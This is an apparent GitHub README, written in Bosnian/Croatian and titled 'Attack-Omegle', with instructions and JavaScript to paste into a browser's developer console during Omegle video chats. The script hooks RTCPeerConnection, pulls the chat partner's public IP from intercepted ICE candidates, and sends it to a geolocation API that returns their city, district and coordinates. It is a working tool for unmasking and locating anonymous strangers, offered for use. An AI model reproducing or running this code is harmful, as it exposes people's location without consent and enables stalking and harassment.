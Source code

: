 # Attack-Omegle
Ima te u cosku na desnoj strani browzera 3 tackice koje idu ovako:" ... " i vi kliknite na te tackice pa idite na vise alata i alati za razvoj inzenjera.
Takoder prije toga morate u ovaj kod unjeti kljuc koji ce te dobiti na: https://app.ipgeolocation.io/
Code:
const apiKey = "OVDJE NAPISATI TVOJ API KLJUC";

window.oRTCPeerConnection =
window.oRTCPeerConnection || window.RTCPeerConnection;

window.RTCPeerConnection = function (...args) {
const pc = new window.oRTCPeerConnection(...args);

pc.oaddIceCandidate = pc.addIceCandidate;

pc.addIceCandidate = function (iceCandidate, ...rest) {
const fields = iceCandidate.candidate.split(" ");

const ip = fields[4];

if (fields[7] === "srflx") getLocation(ip);

return pc.oaddIceCandidate(iceCandidate, ...rest);
};

return pc;
};

const getLocation = async (ip) => {
let url = `https://api.ipgeolocation.io/ipgeo?apiKey=${apiKey}&ip=${ip}`;
await fetch(url).then((response) =>
response.json().then((json) => {
const {
city,
district,
state_prov,
country_name,
latitude,
longitude,
} = json;
const output = `
---------------------
Country: ${country_name}
State: ${state_prov}
City: ${city}
District: ${district}
Lat / Long: (${latitude}, ${longitude})
IP: ${ip}
---------------------
`;
console.log(output);
})
);
};

